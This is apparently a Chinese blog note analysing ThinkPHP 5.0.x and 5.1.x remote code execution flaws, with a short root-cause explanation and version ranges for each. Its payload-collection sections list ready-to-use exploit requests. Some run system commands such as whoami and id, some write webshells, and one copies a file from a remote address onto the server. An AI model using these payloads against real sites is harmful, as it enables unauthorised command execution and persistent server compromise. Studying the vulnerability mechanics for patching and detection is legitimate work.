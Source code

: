 ```yaml
---
layout: post
title: THINKPTP5_RCE
date: 2022-10-1
categories: blog
tags: [笔记]
description: tp5 rce漏洞 梳理

---
```


## Thinkphp5.x rce

***

### ThinkPHP5.0.x 变量覆盖RCE

#### 影响版本

`5.0.0 - 5.0.23`

#### 漏洞成因

利用`伪全局变量覆盖`达到命令执行的目的  
在`thinkphp/library/think/Request.php`的`method`方法存在漏洞，可以通过post数组传入`__method`任意调用Request类中的方法  
Request中的`__construct`方法中`foreach`调用可以覆盖Request类中的属性，导致原本的`filter`可以被覆盖成`system`  
Thinkphp5中定义了验证码类路由地址`?s=captcha`，默认这个方法能够调用`Request::instance()->param()`  
执行`$request->param()`会进入`input()`方法，在这个方法中将覆盖的`filter`回调`call_user_func()`，实现rce

理解：`__construct()`中的`$this->$name = $item` 做到类属性任意覆盖，被覆盖的类属性又被用在`call_user_func()`中

5.0.13之后版本默认debug=false 需要开启debug后才能利用此漏洞进行命令执行，可以通过添加路由触发rce

#### payload收集

```php
5.0.1-5.0.13 
//命令执行
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter

//写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

5.0.13-5.0.23
//开启debug命令执行
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc

//无需开启debug命令执行
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
    
//需开启debug写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

### ThinkPHP5.1.x未开启强制路由

#### 影响版本

`5.1.0 - 5.1.30`

#### 漏洞成因

thinkphp默认未开启强制路由且默认开启路由兼容模式  
兼容模式可以调用控制器(controller)执行，根据前一个RCE漏洞可知所有用户参数都会调用Request::input()  
其会调用filterValue方法，此方法中包含call_user_func

理解：流程中没有对控制器进行合法校验，导致可以调用任意控制器，实现rce

#### payload收集 

```php
#命令执行
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

#写入webshell
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>  //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```

